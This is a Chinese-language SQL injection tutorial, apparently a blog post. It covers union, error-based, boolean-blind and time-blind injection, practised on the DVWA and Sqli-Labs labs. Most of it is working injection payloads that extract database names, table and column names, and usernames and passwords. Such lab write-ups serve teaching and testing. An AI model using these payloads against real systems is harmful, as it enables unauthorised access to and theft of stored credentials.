

MySQL注入分类
Sql 注入攻击是通过将恶意的 Sql 查询或添加语句插入到应用的输入参数中，再在后台Sql 服务器上解析执行进行的攻 击，它目前黑客对数据库进行攻击的最常用手段之一。
- 联合查询注入
- 报错注入
- 布尔型盲注
- 时间盲注
联合查询注入
基本流程
判断是否存在注入（数字型还是字符型）
单引号法：
1
'
逻辑法：
1
2
3
4and 1=1
and 1=2
1' and '1'='1
1' and '1'='2运算法
1
2-1
-0
猜解表名
常见敏感表名
1
2
3
4
5
6
7admin
user
admin_userinfo
system
vipuser
a_admin
xxx_admin ······猜解字段数
1
order by xx
猜解字段名
常见的敏感字段名
1
2
3
4
5username
password
admin_usernmae
admin_password
....获取数据
1
union select 1,2,3... from xx
常用函数
几个常用的函数：
user()返回当前数据库连接使用的用户；database()返回当前数据库连接使用的数据库；version()返回当前数据库的版本；concat或者concat-ws函数可以将这些函数进行组合使用并显示出来。concat函数中，将其中的参数直接连接起来产生新的字符串。而在concat_ws函数中，第一个参数是用于作为分隔符将后面各个参数的内容分隔开来再进行相应的连接产生新的字符串。1
concat_ws(char(32,58,32),user(),database(),version())
其中
char()函数为将里面的参数转化为相应的字符，其中32为空格，58为冒号(:)，通过这样的方式可以绕过一些简单的过滤机制。
几个全局函数：
- @@datadir
- @@hostname
- @@VERSION
- @@version_compile_os
DVWA-Low级
源代码：
1 |
|
可以看到，对于输入的变量id的值并没有过滤而直接用到SELECT语句中，报错还调用mydql_error()函数显示mysql数据库的报错信息。
判断是否存在注入，数字型或是字符型
输入ID为1'是出现报错提示，此时的执行语句是：
1 | SELECT first_name, last_name FROM users WHERE user_id = '1'' |
1 | You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1 |
输入ID为1' and '1'='1时
显示结果:
此时的执行语句为：
1 | SELECT first_name, last_name FROM users WHERE user_id = '1' and '1' = '1' |
输入ID为1' or '1' = '11时（or 使 where子句始终成立）：
1 | SELECT first_name, last_name FROM users WHERE user_id = '1' or '1' = '1' |
结果显示了所有用户信息。以上实验说明存在字符型注入。
猜解字段数
此时输入1' order by 3 #报错，说明只有两个字段，#为注释符。
获取当前数据库和数据库用户名
1 | 1' union select database(),user() # |
显示结果为：
获取当前数据库版本和操作系统
1 | 1' union select version(),@@version_compile_os# |
显示结果为：
我们需要判断MySQL的版本。
- 因为当MySQL的版本小于4.0时，是不支持union select联合查询的;
- 当MySQL版本大于 5.0时，有个默认数据库information_schema，保存了 Mysql服务器所有数据库的信息,如数据库名，数据库的表， 表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。
获取数据表名
1 | 1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'# |
获得结果分别为：guestbook, users
获取表中的列名
1 | 1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' # |
得到的结果为
获取数据
1 | 1' union select user,password from users# |
报错注入
报错注入原理
报错注入用于没有显位的SQL注入，可以用来替代盲注。
当在一个聚合函数，比如 count 函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。 这些函数分别是:
Rand()//随机函数Floor()//取整函数Count()//聚合函数Group by key//分组语句
例如，利用floor()语句报错，是利用floor(),count(),group() by冲突报错，当这三个函数在特定情况一起使用产生的 错误。
===
ExtractValue(): 使用XPath表示法从XML字符串中提取值
ExtractValue(xml_frag, xpath_expr)接受两个字符串参数，一个XML标记片段 xml_frag和一个XPath表达式 xpath_expr（也称为 定位器）; 它返回CDATA第一个文本节点的text（），该节点是XPath表达式匹配的元素的子元素。UpdateXML(): 返回替换的XML片段UpdateXML(xml_target, xpath_expr, new_xml)此函数用来更新选定XML片段的内容，将XML标记的给定片段的单个部分替换为xml_target新的XML片段new_xml，然后返回更改的XML。xml_target替换的部分 与xpath_expr用户提供的XPath表达式匹配。如果未xpath_expr找到表达式匹配 ，或者找到多个匹配项，则该函数返回原始xml_targetXML片段。所有三个参数都应该是字符串。
extractvalue注入的原理:依旧如同updatexml一样，extract的第二个参数要求是xpath格式字符串，而我们输入的并不是。 所以报错。
报错注入实例
本实例使用Sqli-Labs平台的 Challenge # 17 进行。其中，源代码中的check_input()函数如下
1 | $uname = check_input($_POST['uname']); |
check_input()中，对 username 进行各种转义的处理，所以此处不能使用 username 进行注入。
extractvalue报错注入流程
使用extractvalue()，首先得知数据库中存在admin账户。
获取版本信息
1 | aaa' and extractvalue(1,concat(0x7e,(select @@version),0x7e))# |

数据库名
1 | aaa' and extractvalue(1,concat(0x7e,(select database()),0x7e))# |
获取表名
1 | aaa' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e))# |

获取列名
1 | aaa' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),0x7e))# |
extractvalue获取数据
1 | aaa' and extractvalue(1,concat(0x7e,(select * from (select username from users limit 0,1) as a),0x7e))# |

updatexml报错注入流程
获取数据库名
1 | uname=admin&passwd=' or updatexml(1,concat('#',(database())),0)--+ |
表名
1 | uname=admin&passwd=' or updatexml(1,concat('#',(select group_concat(table_name) from information_schema.tables where table_schema='security')),0)--+ |
列名
1 | uname=admin&passwd=' or updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0)--+ |
updatexml获取数据
1 | uname=admin&passwd=' or updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0)--+ |
报错注入参考链接
Mysql报错注入原理分析(count()、rand()、group by)
报错注入:extractvalue、updatexml报错原理
基于extractvalue()和updatexml()的报错注入
布尔盲注
布尔适用范围
在联合查询和报错注入都不适用的情况下，考虑的一种手工注入方式。
优点：遍历的方法可以准确查出数据。
缺点：过程繁琐。
DVWA盲注源码
1 | if( isset( $_GET[ 'Submit' ] ) ) { |
布尔盲注流程
布尔盲注常用函数
length()返回字符串的长度，例如可以返回数据库名字的长度substr()用来截取字符串ascii()返回字符的ascii码sleep(n)将程序挂起一段时间，n为n秒if(expr1,expr2,expr3)判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句
判断是否存在注入，注入是字符型还是数字型
1' and 1=1 #
1' and 1=2 #
猜解当前数据库名
猜长度：
输入1' and length(database())=4 #，显示存在;
二分法逐字猜解：
输入1' and ascii(substr(database(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于 97(小写字母a的ascii值);
输入1' and ascii(substr(database(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不 大于100(小写字母d的ascii值)，所以数据库名的第一个字符的ascii值为100，即小写字母d。
…
重复以上步骤直到得出完整的数据库名dvwa
猜解表名
猜解表的数量
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # 显示存在
猜解第一个表名长度
1' and length(substr((select table_name from information_schema.tables table_schema=database() limit 0,1),1))=9 # 显示存在
猜解第一个表的名字
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))>97 #
重复操作，猜解出表名为guestbook、users
猜解表中的字段名
猜解字段的数量
1' and (select count(column_name) from information_schema.columns where table_name= 'users')=8 # 显示存在
猜解第一个字段的长度
1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1))=7 # 显示存在
猜解第一个字段名
1' and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1,1))>97 # 显示存在
猜解数据
二分法猜解数据
and ascii(substr((select user from dvwa.users limit 0,1),1,1))>96 #
…
暴力猜解
1' and (select count(*) from users where user = 'admin') = 1 #
时间盲注
时间盲注应用场景
当页面完全没有回显时用时间盲注。
if函数
格式:IF(Condition,A,B)
含义:如果Condition成立，则A，否则B
延时注入
- mysql>=5.0 使用sleep()进行查询
- mysql<5.0 使用benchmark()进行查询
benchmark是通过查询次数增多，时间变得缓慢来判断是否存在延迟
select benchmark(1000,select * from admin);
判断流程与布尔盲注差不多。